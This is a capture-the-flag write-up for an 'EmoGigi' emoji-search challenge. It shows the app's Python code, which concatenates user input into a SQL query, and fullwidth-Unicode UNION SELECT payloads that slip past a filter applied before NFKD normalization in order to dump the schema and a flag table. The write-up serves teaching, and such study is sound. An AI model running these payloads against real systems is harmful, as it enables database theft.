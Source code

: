 # EmoGigi

On the main page we can see a search box for emojis and a table with a list of results/all the available emojis with their identifier.
The challenge provides also a file called `Message.txt`, in which we can observe what seems like an email from the ovwner of the site where we can see some code:
```
def search():
    # [... SNIP ...] Init the variables here
    
    # Custom SQL filter
    query = sqlfilter(request.form['query'])
    
    # [... SNIP ...]

    if query is None:
        # [... SNIP ...] Return an error here
    else:
        # Normalize weird chars here
        norm = unicodedata.normalize("NFKD", query).encode('ascii', 'ignore').decode('ascii')
        
        # Custom HTML filter
        query = htmlfilter(norm)
        
        conn = sqlite.connect('./emoji.db')
        cur = conn.cursor()

        # Prefix:   f09f90
        # Range:    80;c0
        # Category: animals
        result = cur.execute("SELECT prefix,range,category,id FROM emoji WHERE category like '%" + query + "%'").fetchall()
        conn.close()

        # No Results
        if len(result) == 0:
            return index()

        # [... SNIP ...] Build the results table here
        for r in result:
            rng = r[1].split(';')
            emoji += '<div class="category"><div id="lh"></div>' + r[2].upper() + '<div id="rh"></div></div>'
            emoji += emoji_gen(bytes.fromhex(r[0]), int(rng[0], 16), int(rng[1], 16))
            
        # [... SNIP ...]

    return render_template('index.html', error=error, emoji=emoji, pages=pages, query=query), 200
```

The first important thing that we can notice is the concatenation of user input and SQL query directly, which looks like textboox SQL injection:
```
result = cur.execute("SELECT prefix,range,category,id FROM emoji WHERE category like '%" + query + "%'").fetchall()
```

However, trying with some inputs like `' OR 1=1 --;` or simply `' --` we get an error message, in fact, we can observe the following operationgs on the user's input:
```
query = sqlfilter(request.form['query'])
norm = unicodedata.normalize("NFKD", query).encode('ascii', 'ignore').decode('ascii')
query = htmlfilter(norm)
```

So, there is a custom sql escape sanitization (function `sqlfilter`) done before before normalization, which means that we can send a query written in unicode characters and this query would be normalized to the ascii version bypassing the filter.
This because the second line in the snippet above is meant to normalize weird Unicode characters and remove all non-ascii characters from the result, but the SQL sanitization has already been done.
We need unicodedata.normalize to output the special characters we need in order to perform SQLi.

We can find characters that normalize `'` with python, using the following one-liner:
```
print([c for c in range(0x10ffff) if unicodedata.normalize("NFKD", chr(c)) == "'"][1:][0])
```
Otherwise, we can also use a unicode fullwidth converter online to write the queries in unicode that we need:
```
＇    ｕｎｉｏｎ ＳＥＬＥＣＴ ＇ｐｒｅｆｉｘ＇，90，＇ｐｒｅｆｉｘ＇，name ｆｒｏｍ  ｓｑｌｉｔｅ＿ｓｃｈｅｍａ   －－
```

allows us to retrieve the table name `r3plych4ll3ng3fl4g`, and then with:
```
＇　ｕｎｉｏｎ　ＳＥＬＥＣＴ　＇ｐｒｅｆｉｘ＇，　９０，　＇ｐｒｅｆｉｘ＇，　　ｖａｌｕｅ　ｆｒｏｍ　ｒ３ｐｌｙｃｈ４ｌｌ３ｎｇ３ｆｌ４ｇ　　－－
```

we get the flag `{FLG:O0O0OP5_1_H4V3_B33N_PWN3D_(54DF4C3)!}`.
